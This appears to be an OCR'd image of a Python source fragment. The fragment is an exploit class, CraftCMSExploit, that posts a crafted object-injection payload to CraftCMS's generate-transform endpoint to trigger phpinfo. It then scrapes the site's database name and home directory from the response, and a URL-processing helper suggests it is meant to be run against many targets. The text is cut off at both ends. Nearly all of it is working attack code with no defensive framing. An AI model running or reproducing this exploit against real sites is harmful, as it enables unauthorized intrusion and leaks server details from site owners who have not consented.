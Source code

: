 ```
            # Prepare exploit request
            exploit_url = self.url + "index.php?p=admin/actions/assets/generate-transform"
            headers = {
                'Content-Type': 'application/json',
                'X-CSRF-Token': csrf_token
            }

            payload = {
                "assetId": 11,
                "handle": {
                    "width": 123,
                    "height": 123,
                    "as session": {
                        "class": "craft\\behaviors\\FieldLayoutBehavior",
                        "__class": "GuzzleHttp\\Psr7\\FnStream",
                        "__construct()": [[]],
                        "_fn_close": "phpinfo"
                    }
                }
            }

            response = self.session.post(exploit_url, json=payload, headers=headers, timeout=15)

            # Check if the exploit succeeded
            if 'PHP Version' in response.text and 'PHP License' in response.text:
                result['vulnerable'] = True

                # Extract CRAFT_DB_DATABASE value
                db_match = re.search(r'<tr><td class="e">CRAFT_DB_DATABASE\s*</td><td class="v">([^<]+)</td></tr>', response.text)
                if db_match:
                    result['db_name'] = db_match.group(1).strip()

                # Extract HOME directory value
                home_match = re.search(r'<tr><td class="e">\$_SERVER\[\'HOME\'\]</td><td class="v">([^<]+)</td></tr>', response.text)
                if home_match:
                    result['home_dir'] = home_match.group(1).strip()

                # If HOME is not found, try to find it in a different format
                if not result['home_dir']:
                    alt_home_match = re.search(r'<tr><td class="e">HOME</td><td class="v">([^<]+)</td></tr>', response.text)
                    if alt_home_match:
                        result['home_dir'] = alt_home_match.group(1).strip()

            return result

        except Exception as e:
            result['error'] = str(e)
            return result

def process_url(url):
    """Process a single URL."""
    try:
        # Normalize URL
        if not url.startswith('http'):
            url = 'http://' + url

        print(f"[*] Testing {url}")
        exploit = CraftCMSExploit(url)
        result = exploit.exploit()

```